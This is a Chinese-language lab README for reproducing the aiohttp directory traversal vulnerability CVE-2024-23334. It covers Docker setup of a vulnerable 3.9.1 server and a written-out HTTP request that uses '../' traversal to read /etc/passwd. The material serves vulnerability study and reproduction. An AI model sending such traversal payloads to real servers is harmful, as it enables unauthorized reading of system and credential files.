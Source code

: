 # aiohttp 目录遍历漏洞 （CVE-2024-23334）

aiohttp 是一个基于 asyncio 和 Python 的异步 HTTP 客户端/服务器框架。

在将 aiohttp 用作 Web 服务器并配置静态路由时，必须指定静态文件的根路径。此外，可以使用 `follow_symlinks` 选项来决定是否跟随指向静态根目录之外的符号链接。当 `follow_symlinks` 设置为 `True` 时，aiohttp 不会验证所读取的文件是否位于静态根目录之内。这可能导致目录遍历漏洞，从而使攻击者可以未经授权访问系统上的任意文件，即使系统中没有实际存在符号链接。该漏洞影响的版本包括 3.9.1 及以下。

参考链接：

- [NVD - CVE-2024-23334](https://nvd.nist.gov/vuln/detail/CVE-2024-23334)

- [aiohttp 目录穿越漏洞（CVE-2024-23334 分析）](ttps://www.venustech.com.cn/new_type/aqldfx/20240401/27962.html)

## 环境搭建

执行如下命令启动存在漏洞的 aiothttp 3.9.1 服务器：

```
docker compose up -d
```

服务启动后，通过 `http://your-ip:8080/` 即可访问网页。

## 漏洞复现

利用此漏洞，可以构造恶意路径，从而访问服务器中任意文件。

例如，构造如下请求来查看系统文件`/etc/passwd`:

```
GET /static/../../../../../etc/passwd HTTP/1.1
Host: your-ip:8080
Content-Length: 2
```

![构造查看/etc/passwd的请求](1.png)

如果操作成功，即可以看到`/etc/passwd`的内容，证明漏洞存在。
